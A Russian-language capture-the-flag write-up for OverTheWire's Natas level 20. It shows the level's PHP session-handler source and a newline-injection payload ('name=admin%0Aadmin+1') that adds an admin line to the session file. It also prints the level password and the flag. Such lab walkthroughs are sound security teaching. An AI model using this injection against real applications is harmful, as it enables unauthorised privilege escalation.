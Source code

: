 # NATAS_20 WriteUp
:computer: Host: http://natas20.natas.labs.overthewire.org/  
:bust_in_silhouette: Usename: natas20  
:key: Password: guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH

:triangular_flag_on_post: Flag: 89OWrTkGmiLZLv12JY4tLj2c4FW0xn56
 
- [NATAS\_20 WriteUp](#natas_20-writeup)
  - [Обзор веб-приложения](#обзор-веб-приложения)
  - [Решение](#решение)

## Обзор веб-приложения
<a name="Обзор_веб-приложения"></a> 
Веб-приложение выглядит следующим образом
![Скриншот веб-приложения](./img/natas20/natas20_0.png)

Ввод учётных данных **test:test** приводит к вот такой реакции
![Скриншот веб-приложения](./img/natas20/natas20_1.png)

Кнопка <kbd>**View sourcecode**</kbd> позволяет просмотреть исходный код страницы  
```php
// HTML Code ...
<?php
function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
/* }}} */

/* we don't need this */
function myopen($path, $name) {
    //debug("MYOPEN $path $name");
    return true;
}

/* we don't need this */
function myclose() {
    //debug("MYCLOSE");
    return true;
}

function myread($sid) {
    debug("MYREAD $sid");
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID");
        return "";
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
    debug("Reading from ". $filename);
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
    return session_encode();
}

function mywrite($sid, $data) {
    // $data contains the serialized version of $_SESSION
    // but our encoding is better
    debug("MYWRITE $sid $data");
    // make sure the sid is alnum only!!
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID");
        return;
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    $data = "";
    debug("Saving in ". $filename);
    ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
}

/* we don't need this */
function mydestroy($sid) {
    //debug("MYDESTROY $sid");
    return true;
}
/* we don't need this */
function mygarbage($t) {
    //debug("MYGARBAGE $t");
    return true;
}

session_set_save_handler(
    "myopen",
    "myclose",
    "myread",
    "mywrite",
    "mydestroy",
    "mygarbage");
session_start();

if(array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
    debug("Name set to " . $_REQUEST["name"]);
}

print_credentials();
$name = "";
if(array_key_exists("name", $_SESSION)) {
    $name = $_SESSION["name"];
}
?>
// HTML Code ...
```

## Решение
<a name="Решение"></a>
В данном веб-приложении переопределены функции управления сессией пользователя  
В частности, описаны функции чтения и записи сессии пользователя

Запись информации о сессии реализована не сложно: пробегаемся по парам ``$key => $value`` и записываем их через пробел  
Строка должна заканчиваться на **\n**
```php
$filename = session_save_path() . "/" . "mysess_" . $sid;
$data = "";
debug("Saving in ". $filename);
ksort($_SESSION);
foreach($_SESSION as $key => $value) {
    debug("$key => $value");
    $data .= "$key $value\n";
}
```

Функция **myread**, соответственно, учитывает эти особенности записи во время чтения информации из файла сессии  
```php
$data = file_get_contents($filename);
$_SESSION = array();
foreach(explode("\n", $data) as $line) {
    debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
}
```

Определение администратора происходит через проверку наличия в файле сессии строчки **"admin 1"**
```php
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
        print "You are an admin. The credentials for the next level are:<br>";
        print "<pre>Username: natas21\n";
        print "Password: <censored></pre>";
    } else {
        print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
```

Попробуем же дописать в свой файл сессии необходимую строчку с помощью символа переноса строки - ``\n``   
:space_invader: Payload: ``name=admin%0Aadmin+1``   

![Запись новой сессии](./img/natas20/natas20_3.png)

А теперь попробуем зайти, используя тот же **PHPSESSID**, под которым мы применяли payload 
![Получение флага](./img/natas20/natas20_4.png)

Полученный флаг: 89OWrTkGmiLZLv12JY4tLj2c4FW0xn56
